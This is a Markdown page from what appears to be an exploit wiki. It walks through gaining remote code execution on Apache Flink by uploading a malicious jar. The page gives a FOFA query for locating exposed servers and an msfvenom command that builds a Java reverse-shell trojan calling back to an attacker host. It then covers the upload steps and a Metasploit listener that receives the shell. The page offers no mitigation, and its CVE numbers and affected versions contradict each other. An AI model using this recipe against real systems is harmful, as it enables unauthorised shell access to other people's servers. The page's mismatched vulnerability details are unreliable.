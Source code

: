 ```yaml
---
title: Apache Flink upload Remote command execution vulnerability CVE-2020-17518
---
```


# Apache Flink upload Remote command execution vulnerability CVE-2020-17518

## Vulnerability Description

Recently, a security researcher disclosed a vulnerability in the upload of any Jar package of Apache Flink that causes remote code execution. The attacker can obtain system permissions through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Apache Flink <= 1.9.1</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">
<a-button href="https://fofa.info/result?qbase64=YXBwPSJBcGFjaGUgRmxpbmsi">FOFA: app="Apache Flink"</a-button>
</a-checkbox>

## Environment construction

<a-alert type="success" message="https://github.com/vulhub/vulhub/tree/master/flink/CVE-2020-17519" description="" showIcon>
</a-alert>

</br>

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/06d235d4-965d-44e0-91c0-dc69b97bf48d.png)

## Vulnerability reappears

Click to view the file upload page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/bb05ef9f-f86f-4bb5-bbcb-c13424d7aca4.png)

Open MSF to generate a jar Trojan

```
msfvenom -p java/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.xxx  LPORT=4444 -f jar > test.jar
```

Click Add to upload the jar file

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1fcaa45f-0492-4411-b14f-e4554cf84e5b.png)

```shell
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload java/shell/reverse_tcp
payload => java/shell/reverse_tcp
msf6 exploit(multi/handler) > set lhost xxx.xxx.xxx.xxx
lhost => xxx.xxx.xxx.xxx
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > run
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/3def5e8c-6590-4ecd-8b61-dfcb095bdaa0.png)

Click submit

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/681f48a7-3501-4f52-8532-5efddcc0074f.png)

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/16969b72-8db4-42f8-a0e3-b02022ab5f5b.png)